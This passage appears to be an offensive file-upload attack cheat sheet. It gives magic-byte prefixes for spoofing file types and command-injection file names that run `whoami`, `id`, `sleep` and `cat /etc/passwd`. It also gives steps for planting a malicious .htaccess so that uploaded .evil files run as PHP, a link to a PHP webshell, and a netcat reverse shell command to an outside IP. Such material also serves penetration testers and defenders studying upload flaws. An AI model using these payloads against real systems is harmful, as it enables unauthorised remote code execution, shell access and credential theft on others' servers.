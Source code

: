 | FILE TYPE | MAGIC BYTES |
| --- | --- |
| GIF | `GIF89a;\x0a` |
| PDF | `%PDF-` |
| JPG / JPEG | `\xFF\xD8\xFF\xDB` |
| PNG | `\x89\x50\x4E\x47\x0D\x0A\x1A\x0A` |
| TAR | `\x75\x73\x74\x61\x72\x00\x30\x30` |
| XML | `<?xml` |

### **RCE VIA THE FILE NAME PARAMETER**

If the application includes custom image processing / file manipulation, then it may be vulnerable to remote command execution via code injection in the file name.  
Some example valid file names that could trigger commmand injection are the following:

| FILE NAME | PAYLOAD | OUTCOME IF VULNERABLE |
| --- | --- | --- |
| `a$(whoami)z.jpg` | `$(whoami)` | a\[CURRENT USER\]z.jpg |
| `a;sleep 30;z.jpg` | `;sleep 30;` | The application will take 30+ seconds to respond |
| `a$(id)z.jpg` | `$(id)` | a\[USER ID INFORMATION\]z.jpg |
| `a$(cat /etc/passwd)z.jpg` | `$(cat /etc/passwd)` | a\[CONTENTS OF /etc/passwd\]z.jpg |

### **UPLOADING A .HTACCESS FILE**

Developers and security teams often blacklist specific file extensions but may overlook web server configuration files, making the .htaccess technique particularly dangerous and potentially capable of leading to Remote Code Execution (RCE).

#### **HOW IT WORKS**

1.  Upload the .htaccess File: The attacker uploads the malicious .htaccess file to a directory on the server.  
    `AddType application/x-httpd-php .evil`
    
2.  File Extension Handling: The .htaccess file redefines how the server processes files with the .evil extension, treating them as PHP scripts.
    
3.  Execute Malicious Code: The attacker can then upload files with the .evil extension containing malicious PHP code, which the server will execute.you can use https://github.com/WhiteWinterWolf/wwwolf-php-webshell then upload nc and run it with `.\nc.exe 192.168.36.128 9001 -e cmd.exe`
    
4.  This technique depends on the following options being enabled (NGINX does not support .htaccess files, so this method applies only to Apache servers.):
    
    ```
    /etc/apache2/apache2.conf:      AllowOverride Options
    /etc/apache2/apache2.conf:      AllowOverride FileInfo
    ```
    
